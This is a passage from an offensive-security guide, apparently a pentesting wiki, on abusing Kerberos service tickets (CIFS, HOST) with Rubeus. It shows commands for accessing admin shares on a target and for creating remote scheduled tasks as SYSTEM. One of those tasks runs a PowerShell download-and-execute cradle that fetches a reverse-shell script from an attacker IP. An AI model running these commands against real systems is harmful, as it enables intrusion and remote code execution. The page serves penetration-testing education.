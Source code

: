     </tr>
    <tr>
      <td style="text-align:left">Windows Remote Server Administration Tools</td>
      <td style="text-align:left">
        <p>RPCSS</p>
        <p>LDAP</p>
        <p>CIFS</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Golden Tickets</td>
      <td style="text-align:left">krbtgt</td>
    </tr>
  </tbody>
</table>

Using **Rubeus** you may **ask for all** these tickets using the parameter:

* `/altservice:host,RPCSS,http,wsman,cifs,ldap,krbtgt,winrm`

## Abusing Service tickets

In the following examples lets imagine that the ticket is retrieved impersonating the administrator account.

### CIFS

With this ticket you will be able to access the `C$` and `ADMIN$` folder via **SMB** \(if they are exposed\) and copy files to ay part of the remote filesystem just doing something like:

```bash
dir \\vulnerable.computer\C$
dir \\vulnerable.computer\ADMIN$
copy afile.txt \\vulnerable.computer\C$\Windows\Temp
```

You will also be able to obtain a shell inside the host or execute arbitrary commands using **psexec**:

{% page-ref page="../ntlm/psexec-and-winexec.md" %}

### HOST

With this permission you can generate scheduled tasks in remote computers and execute arbitrary commands:

```bash
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekely /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekely /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
